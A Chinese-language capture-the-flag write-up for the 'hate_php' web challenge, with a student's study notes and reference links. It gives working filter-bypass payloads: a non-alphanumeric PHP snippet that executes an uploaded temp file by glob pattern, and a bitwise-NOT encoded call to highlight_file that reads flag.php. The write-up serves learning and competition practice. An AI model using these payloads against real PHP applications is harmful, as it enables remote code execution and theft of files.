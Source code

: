 # Web-hate_php
## 题目
![](images/hate-php.png)
## 题解
![](images/hate-php-1.png)  
阅读源码发现过滤掉了f l a g . p h / ; " ' ` | [ ] _ =这些字符，并且还有一些黑名单函数。
![](images/hate-php-2.png)    
构造POC，执行任意命令。php生成临时文件名是随机的，最后一个字符不一定是大写字母，不过多尝试几次也就行了。最后，我传入的code为?><?=`. /???/????????[@-[]`;?>，发现成功了。   
下面就是要通过该方法构造一些黑名单之外的函数来读取flag.php中的内容。直接构造 highlight_file(flag.php)即可读到flag,执行payload```(~%97%96%98%97%93%96%98%97%8B%A0%99%96%93%9A)(~(%99%93%9E%98%D1%8F%97%8F))```.  
![](images/hate-php-3.png)
## 参考文献
[【第五空间智能安全大赛】hate_php WriteUp](https://www.cnblogs.com/vege/p/13258077.html)  
[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)  
[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)  
关于PHP的特性:  
[递增／递减运算符](https://www.php.net/manual/zh/language.operators.increment.php)    
[不向后兼容的变更](https://www.php.net/manual/zh/migration70.incompatible.php)  
拓展阅读：  
[小密圈里的那些奇技淫巧](https://www.leavesongs.com/SHARE/some-tricks-from-my-secret-group.html)
* 应该反复阅读，没有十分懂得。 🤔  
* EVAL长度限制突破技巧（之前tstar靶场赛就遇到过，当时就不会）
* 命令长度限制突破技巧
* Mysql突破换行符的技巧
* 命令执行WAF绕过技巧
* 无字母数字Webshell构造技巧
[phith0n的博客](https://www.leavesongs.com/)
## 总结
### 第一次学习总结-2020.8.5
1.PHP语言不会,这个题应该熟悉PHP甚至是PHP5与PHP7